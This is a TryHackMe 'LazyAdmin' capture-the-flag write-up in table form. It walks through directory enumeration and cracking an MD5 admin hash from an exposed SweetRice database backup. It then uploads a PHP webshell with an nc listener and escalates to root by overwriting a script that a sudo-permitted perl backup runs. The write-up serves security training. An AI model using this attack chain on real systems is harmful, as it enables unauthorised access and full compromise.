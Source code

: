 TryHackMe LazyAdmin

Sonntag, 6. Dezember 2020

23:03

![lazyAdmin](/images/lazyAdmin.PNG "LazyAdmin")

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>/home/itguy/user.txt</td>
<td>Port 88 - /content/as</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>/root/root.txt</td>
<td>Port 88 - /content/as</td>
</tr>
</tbody>
</table>

 
=

Enumeration
===========

<table>
<thead>
<tr class="header">
<th>IP#1</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th><blockquote>
<p>Service</p>
</blockquote></th>
<th><blockquote>
<p>Software/<br />
Version</p>
</blockquote></th>
<th><blockquote>
<p>Credentials</p>
</blockquote></th>
<th><blockquote>
<p>Done</p>
</blockquote></th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>22</td>
<td>SSH</td>
<td>OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>???</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>???</td>
</tr>
</tbody>
</table></td>
<td>yes</td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>80</td>
<td>HTTP</td>
<td>Apache httpd 2.4.18 ((Ubuntu))</td>
<td> </td>
<td>yes</td>
<td><p>User.txt</p>
<p>Root.txt</p></td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>$gobuster dir -w /usr/share/wordlists/dirb/big.txt -u</p>
<table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/content</td>
<td><p>[…]</p>
<p>Powered by Basic-CMS.ORG SweetRice.</p></td>
<td> </td>
</tr>
<tr class="even">
<td>/content/attachment/</td>
<td>Landing Plattform for upload</td>
<td> </td>
</tr>
<tr class="odd">
<td>/content/inc</td>
<td>SweetRice Source &amp; Binaries</td>
<td> </td>
</tr>
<tr class="even">
<td>/content/inc/mysql_backup</td>
<td><ol type="1">
<li><blockquote>
<p>$cat mysql_bakup_20191129023059-1.5.1.sql</p>
</blockquote></li>
</ol>
<ol start="2" type="1">
<li><blockquote>
<p>ISERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&amp;#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"<strong>manager</strong>\\";s:6:\\"passwd\\";s:32:\\"<strong>42f749ade7f9e195bf475f37a44cafcb</strong>\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"&lt;p&gt;Welcome to SweetRice - Thank your for install SweetRice as your website management system.&lt;/p&gt;[…]</p>
</blockquote></li>
</ol>
<ol start="3" type="1">
<li><blockquote>
<p>$hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlist/rockyou.txt</p>
</blockquote></li>
<li><blockquote>
<p>$hashcat --show</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
<p>42f749ade7f9e195bf475f37a44cafcb:<strong>Password123</strong></p>
<p> </p>
</blockquote></td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>manager</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>Password123</td>
</tr>
</tbody>
</table></td>
</tr>
<tr class="odd">
<td>/content/as</td>
<td><p>SweetRice Management Page</p>
<p> </p>
<ol type="1">
<li><blockquote>
<p>Login with credentials manager:Password123</p>
</blockquote></li>
<li><blockquote>
<p>Go to Media Center -&gt; Upload and upload custom webshell e.g shell.php</p>
</blockquote></li>
<li><blockquote>
<p>$nc -lvnp &lt;port&gt;</p>
</blockquote></li>
<li><blockquote>
<p>Start shell by clicking on the uploaded file or move to /content/attachment/&lt;uploadedFile&gt;</p>
</blockquote></li>
</ol>
<ol start="5" type="1">
<li><blockquote>
<p>$cat /home/itguy/user.txt</p>
</blockquote></li>
</ol>
<p> </p>
<p><strong>Privilege Escalation</strong></p>
<ol type="1">
<li><blockquote>
<p>$sudo -l</p>
</blockquote></li>
<li><blockquote>
<p>$cat /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$echo "/bin/sh" &gt; /etc/copy.sh</p>
</blockquote></li>
<li><blockquote>
<p>$sudo perl /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$cat /root/root.txt</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
</blockquote></td>
<td><p>User.txt Flag</p>
<p>Root.txt Flag</p></td>
</tr>
<tr class="even">
<td> </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Users
=====

<table>
<thead>
<tr class="header">
<th>ID</th>
<th>Username</th>
<th>Password</th>
<th>Hash</th>
<th>Hash Algorithm</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>-</td>
<td>manager</td>
<td>Password123</td>
<td>42f749ade7f9e195bf475f37a44cafcb</td>
<td><p>Possible algorithms: md5</p>
<p> </p></td>
<td>Administrator</td>
</tr>
</tbody>
</table>

 

**Legend**

<table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>Step Solution/Finding</p>
</blockquote></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td> </td>
<td><blockquote>
<p>Rabbit Hole</p>
</blockquote></td>
</tr>
</tbody>
</table>

